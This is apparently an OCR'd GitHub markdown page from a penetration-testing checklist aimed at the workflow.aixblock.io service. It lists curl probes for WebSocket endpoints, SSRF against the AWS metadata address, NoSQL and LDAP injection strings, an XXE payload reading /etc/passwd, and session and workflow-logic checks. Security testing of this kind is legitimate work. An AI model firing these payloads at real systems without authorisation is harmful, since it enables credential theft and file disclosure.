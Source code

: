 #### **WebSocket Vulnerabilities (NEW)**
```bash
# WebSocket Endpoint Discovery
curl -s "https://workflow.aixblock.io/ws" -v
curl -s "https://workflow.aixblock.io/websocket" -v
curl -s "https://workflow.aixblock.io/socket.io" -v

# WebSocket Hijacking Testing
# Use Burp Suite WebSockets panel for comprehensive testing
```

#### **Cloud Infrastructure Testing (NEW)**
```bash
# AWS Metadata Testing
curl -s "https://workflow.aixblock.io/api/v1/fetch" -d "url=http://169.254.169.254/latest/meta-data/" -v

# Storage Bucket Testing
curl -s "https://workflow.aixblock.io/api/v1/upload" -d "url=https://s3.amazonaws.com/bucket-name" -v
```

#### **Advanced Injection Techniques (NEW)**
```bash
# NoSQL Injection Testing
curl -s "https://workflow.aixblock.io/api/v1/query" -d '{"$where": "1==1"}' -v

# LDAP Injection Testing
curl -s "https://workflow.aixblock.io/api/v1/auth" -d "user=*)(uid=*" -v

# XXE Testing
curl -s "https://workflow.aixblock.io/api/v1/xml" -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>' -v
```

#### **Advanced Authentication Testing (NEW)**
```bash
# JWT Algorithm Confusion
# Test for algorithm confusion vulnerabilities
# Check for weak JWT secrets

# Session Management Testing
curl -s "https://workflow.aixblock.io/api/v1/session" -H "Cookie: session=test" -v
curl -s "https://workflow.aixblock.io/api/v1/logout" -v
```

#### **Business Logic Testing (NEW)**
```bash
# Multi-step Process Testing
curl -s "https://workflow.aixblock.io/api/v1/workflow/start" -v
curl -s "https://workflow.aixblock.io/api/v1/workflow/step" -v
curl -s "https://workflow.aixblock.io/api/v1/workflow/complete" -v

# State Management Testing
curl -s "https://workflow.aixblock.io/api/v1/state" -v
curl -s "https://workflow.aixblock.io/api/v1/transition" -v
```
